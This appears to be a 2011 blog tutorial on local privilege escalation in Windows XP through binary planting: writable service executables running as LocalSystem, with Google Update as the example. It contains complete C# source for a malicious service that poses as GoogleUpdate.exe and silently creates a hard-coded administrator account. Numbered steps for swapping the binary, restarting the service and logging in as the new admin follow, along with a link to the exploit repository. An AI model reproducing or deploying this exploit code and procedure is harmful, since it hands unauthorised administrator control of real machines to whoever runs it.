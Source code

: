```yaml
---
layout: blog-post
title: "Privilege escalation on Windows using Binary Planting"
excerpt: "Privilege escalation on Windows using Binary Planting"
disqus_id: /2011/09/23/privilegeescalation/
location: New Delhi, India
time: 11:00 PM
categories:
- Privilege Escalation
- Windows
---
```


This article is a tutorial on how to trick Windows XP into giving you system privileges using Binary Planting. There have been other previlege escalation methods which are no longer useable:

* [Escalation using at command] (http://h0bbel.p0ggel.org/windows-xp-privilege-escalation-exploit-no-it-isnt)
* [Escalation using Utilman.exe](http://technet.microsoft.com/en-us/security/bulletin/ms04-019)

Microsoft Windows services, formerly known as NT services, enable you to create long-running executable applications that run in their own Windows sessions. These services can be automatically started when the computer boots, can be paused and restarted, and do not show any user interface. Each service executes in the security context of a user account.

You can specify one of the following special accounts instead of specifying a user account for the service:

* [LocalService](http://msdn.microsoft.com/en-us/library/ms684188.aspx)
* [NetworkService](http://msdn.microsoft.com/en-us/library/ms684272.aspx)
* [LocalSystem](http://msdn.microsoft.com/en-us/library/ms684190.aspx)

LocalSystem has extensive privileges on the local computer, and acts as the computer on the network. Its token includes the NT AUTHORITY\SYSTEM and BUILTIN\Administrators SIDs; these accounts have access to most system objects. 

If you open *services.msc* you can see many Windows services running with **LocalSystem** account. Most of the Windows services run under the process svchost.exe by supplying different command line parameters to it. Now imagine what will happen if we replace svchost.exe with our own custom *svchost.exe* having malicious code. This file replacement will result in privelege escalation and execution of exploit code. This can even happen remotely if you are able to connect to remote machine and replace *svchost.exe*. Fortunately, *svchost.exe* and many of the Windows critical executables are protected by [Windows File Protection] (http://en.wikipedia.org/wiki/Windows_File_Protection)

![](/images/Blog/services.png)  

However, depending on your computer configuration, there will be some other 3rd party services which have been installed and run under the different process. For example, in the screenshot below there is a service called **Google Update service** which runs under LocalSystem account in the process **GoogleUpdate.exe**. This process is generally called from this location **C:\Program Files\Google\GoogleUpdate.exe**.

![](/images/Blog/gpupdate.png)  

Now, even as a restricted user, nobody is stopping me from deleting or replacing this file. If we replace this **GoogleUpdate.exe** with the malicious one and then restart the Google Update Services, no file integrity check is performed by OS or Google Update Services to verify that file being executed is original or malicious. This makes the system vulnerable to be exploited since we can run any malicious code under System account simply by replacing this file and then executing the service, which can be done as restricted user.

![](/images/Blog/gservice.png)  

Here is a simple Windows Service code which produces the executable called **GoogleUpdate.exe** , creates a user and adds it to the Administrators group.

{% highlight csharp %}
namespace Google.MakeAdmin.Exploit
{
    using System;
    using System.Diagnostics;
    using System.ServiceProcess;
    using System.DirectoryServices;

    public partial class MakeAdmin : ServiceBase
    {
        private readonly string sSource;
        private readonly string sLog;        

        /// <summary>
        /// Initializes a new instance of the <see cref="MakeAdmin"/> class.
        /// </summary>
        public MakeAdmin()
        {
            InitializeComponent();
            sSource = "Google.MakeAdmin.Exploit";
            sLog = "Application";
        }

        /// <summary>
        /// When implemented in a derived class, executes when a Start command is sent to the service by the 
        /// Service Control Manager (SCM) or when the operating system starts (for a service that starts automatically). 
        /// Specifies actions to take when the service starts.
        /// </summary>
        /// <param name="args">Data passed by the start command.</param>
        protected override void OnStart(string[] args)
        {
            if (!EventLog.SourceExists(sSource))
            {
                EventLog.CreateEventSource(sSource, sLog);
            }


            const string login = "superboy";
            const string password = "pass@word1";
            const string fullName = "Clark Kent";

            CreateUserAccount(login, password, fullName, true, true);

        }

        /// <summary>
        /// When implemented in a derived class, executes when a Stop command is sent to the service by the 
        /// Service Control Manager (SCM). Specifies actions to take when a service stops running.
        /// </summary>
        protected override void OnStop()
        {
        }

        /// <summary>
        /// Creates the user account.
        /// </summary>
        /// <param name="login">The login.</param>
        /// <param name="password">The password.</param>
        /// <param name="fullName">The full name.</param>
        /// <param name="isAdmin">if set to <c>true</c> [is admin].</param>
        /// <param name="isNew">if set to <c>true</c> [is new].</param>
        private void CreateUserAccount(string login, string password, string fullName, bool isAdmin, bool isNew)
        {
            try
            {
                DirectoryEntry dirEntry = new DirectoryEntry("WinNT://" + Environment.MachineName + ",computer");
                DirectoryEntries entries = dirEntry.Children;
                DirectoryEntry newUser = null;
                if (isNew)
                {
                    newUser = entries.Add(login, "user");
                }
                else
                {
                    newUser = entries.Find(login, "user");
                }

                newUser.Properties["FullName"].Add(fullName);
                newUser.Invoke("SetPassword", password);
                newUser.CommitChanges();

                // Remove the if condition along with the else to create user account in "user" group.
                DirectoryEntry grp;
                if (isAdmin)
                {
                    grp = dirEntry.Children.Find("Administrators", "group");
                    if (grp != null)
                    {
                        grp.Invoke("Add", new object[] {newUser.Path});
                    }
                }
                else
                {
                    grp = dirEntry.Children.Find("Guests", "group");
                    if (grp != null)
                    {
                        grp.Invoke("Add", new object[] {newUser.Path});
                    }
                }

            }
            catch (Exception ex)
            {
                EventLog.WriteEntry(sSource, ex.Message);
            }
        }
    }
}
{% endhighlight %}

##Exploiting the Service running with LocalSystem Account##

1. Compile the file to generate a new service executable named **GoogleUpdate.exe** and replace it with the original file stored at the location **C:\Program Files\Google\GoogleUpdate.exe**
2. Restart the service. This will cause our exploit code to be executed and a new user will be created in the system with Administrator privileges. In my example, user will have login name *superboy* and password *pass@word1*.
3. Try to run the command prompt with the credentials of new user.
![](/images/Blog/runcmd.png)

![](/images/Blog/login.png)

4. The command prompt executed is under the credentials of superboy and has superuser access.

The exploit code can be downloaded from [this](https://github.com/madhur/Google.MakeAdmin.Exploit) github repository.


